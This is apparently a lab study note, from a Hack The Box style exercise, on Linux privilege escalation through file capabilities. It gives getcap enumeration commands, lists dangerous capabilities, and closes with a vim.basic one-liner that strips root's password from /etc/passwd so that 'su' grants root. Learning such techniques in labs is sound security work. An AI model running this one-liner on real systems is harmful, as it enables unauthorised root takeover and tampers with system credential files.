 
### What Are Linux Capabilities?

Traditionally in Linux, only the **root user** could do powerful system tasks (like changing system files or binding to ports below 1024).

But that’s a bit too much power.

**Linux capabilities** break up that full root power into smaller pieces. Each "piece" lets a program do **just one special thing** — like:

```bash
getcap -r / 2>/dev/null


# How to See Which Programs Have Capabilities?
`find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;`
```
- `cap_setuid+ep` : May allow executing as root (UID 0)
- `cap_dac_read_search+ep` : Can bypass file read permissions
- `cap_net_bind_service`: Bind to low-numbered ports (like 80)
- `cap_sys_admin`: Do admin stuff like mounting drives
- `cap_dac_override`: Bypass file permissions

go to [https://gtfobins.github.io/](https://gtfobins.github.io/) and find the exploit

___
#  #vim

suppose we have vim capabilities

```
htb-student@ubuntu:~$ getcap /usr/bin/vim.basic
/usr/bin/vim.basic = cap_dac_override+eip
```
- **What this means**: This `vim.basic` can **ignore file permissions**.
- **So what?** You can use it to **edit protected files**, like `/etc/passwd`, **even if you're not root**!

Instead of using Vim interactively (which can be tricky), let’s do it non-interactively using this one-liner:
```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```
✅ What this does:
- It **replaces** `root:x:` with `root::`
- It **removes the password** for root
- It **saves** and **quits** Vim silently

just type `su` and you will have root user access